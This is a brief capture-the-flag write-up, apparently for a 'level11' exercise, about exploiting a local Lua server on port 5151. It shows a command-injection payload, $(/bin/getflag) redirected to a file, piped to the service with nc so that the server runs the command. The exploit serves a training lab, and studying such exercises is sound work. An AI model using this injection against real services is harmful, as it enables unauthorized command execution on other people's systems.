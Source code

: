 ##This repository contains a server-side lua script. This script is running on localhost on port 5151. It expects a client to connect and send data. Regardless of the data being sent, the server replies with useless messages.
##We have user privileges on this script.
#We decide to exploit the data we send to run getflag.

#we craete a file /tmp/test that contains
$(/bin/getflag) > /tmp/level11 

cat /tmp/test | nc 127.0.0.1 5151

#this saves our token into /tmp/level11 

